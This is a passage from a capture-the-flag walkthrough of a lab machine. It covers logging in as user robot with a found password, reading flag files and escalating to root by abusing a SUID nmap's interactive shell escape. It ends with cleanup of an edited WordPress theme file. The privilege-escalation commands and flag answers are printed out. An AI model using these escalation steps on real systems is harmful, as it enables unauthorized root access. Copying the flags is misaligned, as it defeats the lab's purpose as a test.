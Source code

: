 Password discovered: `abcdefghijklmnopqrstuvwxyz`.

### 5.3 Switch to `robot` and retrieve flag

```bash
su robot
# password: abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
# -> 822c73956184f694993bede3eb39f959
```

---

## 6) Privilege escalation to root

### 6.1 Discover SUID binaries

Search for SUID-set files:

```bash
find / -perm -4000 -type f 2>/dev/null | less
```

Observed SUID `/usr/local/bin/nmap`.

### 6.2 Abuse `nmap` interactive mode

When `nmap` is SUID root, its interactive mode can spawn a shell:

```bash
/usr/local/bin/nmap --interactive
# at the nmap> prompt:
!sh
# or: !bash  or !/bin/sh
```

You should get a root shell.

### 6.3 Read root flag

```bash
id  # must show uid=0(root)
cat /root/key-3-of-3.txt
# -> 04787ddef27c3dee1ee161b21670b4e4
```

---

## 7) Cleanup & responsible handling

Remove any payloads you inserted and restore files you edited (theme files). Example:

```bash
# inspect and restore 404.php
sed -n '1,120p' /var/www/html/wp-content/themes/twentyfifteen/404.php
# edit or restore from a backup; delete temp uploads
rm /tmp/my_upload.zip 2>/dev/null || true
```

---
